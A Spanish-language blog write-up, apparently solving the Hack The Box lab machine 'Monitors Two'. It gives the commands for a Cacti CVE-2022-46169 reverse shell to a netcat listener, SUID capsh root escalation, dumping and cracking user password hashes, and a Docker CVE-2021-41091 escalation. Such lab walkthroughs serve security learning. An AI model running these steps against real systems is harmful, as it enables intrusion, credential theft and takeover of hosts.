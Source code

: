 ```yaml
---
#obsidian
banner: "/resources/banners/arknights.png"
banner_y: 0.29429
banner_icon: 📝
#blog
layout: post
title: MONITORS TWO WRITEUP.
subtitle: Resolucion de la maquina monitors two de HTB.
header-img: img/in-post/htb/monitors_two/header.webp
header-style: image
header-mask: rgba(0, 0, 0, .4)
catalog: true
tags:
  - htb
  - docker-abuse
  - rce
  - password-cracking

---
```


  <!-- HTML Meta Tags -->
  <title>MONITORS TWO WRITEUP.</title>
  <meta name="description" content="Resolución de la máquina monitors two de HTB.">
  <meta property="og:site_name" content="QuantumWavves">
  <meta property="og:image" content="https://quantumwavves.github.io/img/in-post/htb/monitors_two/header.webp">

  <!-- Facebook Meta Tags -->
  <meta property="og:url" content="https://quantumwavves.github.io/2023/09/21/monitors-two/">
  <meta property="og:type" content="website">
  <meta property="og:title" content="MONITORS TWO WRITEUP.">
  <meta property="og:description" content="Resolución de la máquina monitors two de HTB.">
  <meta property="og:image" content="https://quantumwavves.github.io/img/in-post/htb/monitors_two/header.webp">
  <meta property="og:image:width" content="200" />
  <meta property="og:image:height" content="200" />

  <!-- Twitter Meta Tags -->
  <meta name="twitter:card" content="summary_large_image">
  <meta property="twitter:domain" content="quantumwavves.github.io">
  <meta property="twitter:url" content="https://quantumwavves.github.io/2023/09/21/monitors-two/">
  <meta name="twitter:title" content="MONITORS TWO WRITEUP.">
  <meta name="twitter:description" content="Resolución de la máquina monitors two de HTB.">
  <meta name="twitter:image" content="https://quantumwavves.github.io/img/in-post/htb/monitors_two/header.webp">

## Tools
- Python
- Netcat 
- John The Ripper
## Topics
- Remote Code Execution / Reverse Shell
- Docker
- CVE's 
- Privilege Escalation
- Password HASH cracking
- SSH

Hola, el dia de hoy vamos a resolver la maquina de monitors two de HTB.

Primero realizaremos un escaneo de reconocimiento con NMAP.

## Reconocimiento

```bash
sudo nmap -Pn -p- -A -T4 -oN scan.txt 10.10.11.211
```
Obtenemos el resultado del escaneo:

![nmap-scan](/img/in-post/htb/monitors_two/nmap-scan.png)

Observamos que existen dos puertos abiertos, el 22 que corresponde al servicio de SSH y el 80 que corresponde al servicio de HTTP. Revisamos el puerto 80 a través del navegador.

![cacti-login](/img/in-post/htb/monitors_two/cacti-login.png)

Observamos que es un login de Cacti, un software para el monitoreo de red. Probamos contraseñas  que estan por defecto sin tener exito. Sin embargo podemos buscar CVE para la versión 1.2.22 de cacti, misma que nos muestra en el login.

## RCE / Reverse Shell

Después de una búsqueda encontramos una CVE para la versión 1.2.22.

- [CVE 2022-46169](https://cve.mitre.org/cgi-bin/cvename.cgi?name=VE-2022-46169)

Buscando encontre el siguiente script que nos ayuda con la RCE y nos brinda una reverse shell.

-  [FredBrave CVE-2022-46169](https://github.com/FredBrave/CVE-2022-46169-CACTI-1.2.22)

Utilizare Netcat con los siguientes flags -n para que no haga resolucion de dns, -l para estar a la escucha, -v de verbose y -p que indica el puerto, en este caso 443:

```bash
sudo nc -nlvp 443
```

Utilizando el script para la RCE podremos obtener la reverse shell.

```bash
python3 CVE-2022-46169.py -u http://10.10.11.211 --LHOST 10.10.16.79 --LPORT=443
```

![python-script](/img/in-post/htb/monitors_two/python-script.png)

Ahora obtenemos la reverse shell a través del puerto 443.

![reverse-shell](/img/in-post/htb/monitors_two/reverse-shell.png)

## Escalada de privilegios

Utilizaremos esta herramienta para enumerar los binarios SUID.

- [LinEnum](https://github.com/rebootuser/LinEnum)

Crearemos un servidor web para poder acceder al recurso.

![webserver](/img/in-post/htb/monitors_two/python-webserver.png)

Obtenemos el recurso con wget.

![wget-source](/img/in-post/htb/monitors_two/wget-source.png)

Le damos permisos de ejecucion.

```bash
chmod +x LinEnum.sh
  ```

![LinEnum-Permission](/img/in-post/htb/monitors_two/linenum-permission.png)

Una vez ejecutado el script nos listara los archivos SUID, nos interesa el archivo ``/sbin/capsh``. ¿Por que nos interesa este archivo? Principalmente por que no pierde privilegios heredados, por que lo que puede funcionar nos como puerta trasera. Mas sobre este archivo:

- [gtfobins](https://gtfobins.github.io/gtfobins/capsh/)

![suid-enum](/img/in-post/htb/monitors_two/suid-files.png)

Nos dirigimos a la ruta ``/sbin`` donde se encuentra el archivo capsh y ejecutaremos el siguiente comando para poder escalar privilegios.

```bash
./capsh --gid=0 --uid=0 --
```

![capsh](/img/in-post/htb/monitors_two/capsh.png)

## Obteniendo credenciales

Observamos que mysql esta dentro del contenedor, utilizamos el siguiente comando para listar a los usuarios root.

```bash
mysql --host=db --user=root --password=root cacti -e "SELECT * FROM user_auth"
```

<img src="/img/in-post/htb/monitors_two/mysql.png" onclick="window.open(this.src)">

Vemos que existe un usuario ``marcus`` y nos da un hash del password del usuario.

## Cracking Hash Password

Utilizaremos john the ripper para encontrar una coincidencia con un diccionario.

![john](/img/in-post/htb/monitors_two/john.png)

Vemos que ha encontrado una posible coincidencia.

## Logeandose por ssh

Intentaremos acceder por ssh introduciendo las credenciales del usuario marcus.

![ssh-auth](/img/in-post/htb/monitors_two/ssh-auth.png)

Y listo, tenemos acceso desde el usuario ``marcus``.

![login](/img/in-post/htb/monitors_two/ssh-login.png)

## Escalando privilegios

Listaremos la version de docker que se esta utilizando.

![docker-v](/img/in-post/htb/monitors_two/docker-v.png)

Vemos que es la version ``20.10.5+dfsg1``, buscaremos alguna CVE que pueda ayudarnos con la escalada de privilegios. Después de una busqueda encontre un script que nos ayuda con esta CVE.

- [Mitre CVE 2021-41091](https://cve.mitre.org/cgi-bin/cvename.cgi?name=2021-41091)
- [CVE-2021-41091](https://github.com/UncleJ4ck/CVE-2021-41091)

Para poder usar este script necesitamos volver al contenedor y asignar a /bin/bash permisos de suid.

![bash](/img/in-post/htb/monitors_two/bash-u+s.png)

Exponemos el recurso con un servidor web como lo hicimos anteriormente.

![wget-exp](/img/in-post/htb/monitors_two/wget-exp.png)

Le damos permisos de ejecucion para poder utilizarlo. 

![exp=permission](/img/in-post/htb/monitors_two/exp-permission.png)

Despues de la ejecucion vemos que nos arroja un path: <br> ``/var/lib/docker/overlay2/c41d5854e4bd996e128d647cb526b73d04c9ad6325201c85f73fdba372cb2f1/merged``.

![exp-exe](/img/in-post/htb/monitors_two/exp-exe.png)

Nos dirigimos a ese directorio y ejecutamos el siguiente comando para obtener la shell en root.

```bash
./bin/bash -p
```

![powned](/img/in-post/htb/monitors_two/powned.png)

Y listo, ahora somos root.

Eso ha sido todo por el post, si piensas que me he equivocado en la informacion o en que he omitido algo que pueda mejorar el post, puedes contactarme por discord `quantumwavves`
